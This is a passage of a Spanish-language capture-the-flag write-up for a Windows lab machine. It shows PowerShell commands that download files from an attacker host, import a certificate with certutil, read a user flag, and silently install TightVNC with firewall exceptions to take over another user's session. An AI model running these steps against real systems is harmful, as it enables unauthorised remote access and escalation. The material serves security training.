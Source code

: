 Lo descargo en la máquina y con certutil lo incorporo

```null
PS C:\Windows\Temp> iwr -uri http://10.10.14.10/cert.pfx -o cert.pfx
PS C:\Windows\Temp> certutil -user -p mimikatz -importpfx cert.pfx NoChain,NoRoot
Certificate "tolu" added to store.

CertUtil: -importPFX command completed successfully.
```

Puedo ver la primera flag

```null
PS C:\Windows\Temp> type C:\Users\tolu\Desktop\user.txt 
0d522fa8d6d2671636ac7e73216808d3  
```

Dentro del escritorio de leo, hay un archivo con la contraseña del usuario administrador, que es el que puede desencriptar el root.txt, pero no puedo ver su contenido

```null
PS C:\Users\leo\Desktop> type .\admin-pass.xml
type : Access to the path 'C:\Users\leo\Desktop\admin-pass.xml' is denied. 
At line:1 char:1
+ type .\admin-pass.xml
+ ~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : PermissionDenied: (C:\Users\leo\Desktop\admin-pass.xml:String) [Get-Content], UnauthorizedAccessException
    + FullyQualifiedErrorId : GetContentReaderUnauthorizedAccessError,Microsoft.PowerShell.Commands.GetContentCommand
```

# Escalada

Al listar por las tareas que se ejecutan en ese momento, aparece que Leo tiene una sesión activa

```null
tasklist /v

....

powershell.exe                6032 Console                    1     79,624 K Unknown         HELPLINE\leo                                            0:00:13 N/A
```

Podría intentar instalar un software que se encargue de conectarme al escritorio remoto de este usuario. Voy a utilizar tightvnc.msi

Lo descargo de la [Web Oficial](https://www.tightvnc.com/download.php) y lo transfiero a la máquina víctima para instalarlo con el siguiente comando:

```null
PS C:\Windows\Temp> iwr -uri http://10.10.14.10/tightvnc.msi -o tightvnc.msi
PS C:\Windows\Temp> cmd /c msiexec /i tightvnc.msi /quiet /norestart ADDLOCAL="Server,Viewer" VIEWER_ASSOCIATE_VNC_EXTENSION=1 SERVER_REGISTER_AS_SERVICE=1 SERVER_ADD_FIREWALL_EXCEPTION=1 VIEWER_ADD_FIREWALL_E
XCEPTION=1 SERVER_ALLOW_SAS=1 SET_USEVNCAUTHENTICATION=1 VALUE_OF_USEVNCAUTHENTICATION=1 SET_PASSWORD=1 VALUE_OF_PASSWORD=PASSWORD SET_USECONTROLAUTHENTICATION=1 VALUE_OF_USECONTROLAUTHENTICATION=1 SET_CONTROL
PASSWORD=1 VALUE_OF_CONTROLPASSWORD=PASSWORD
```
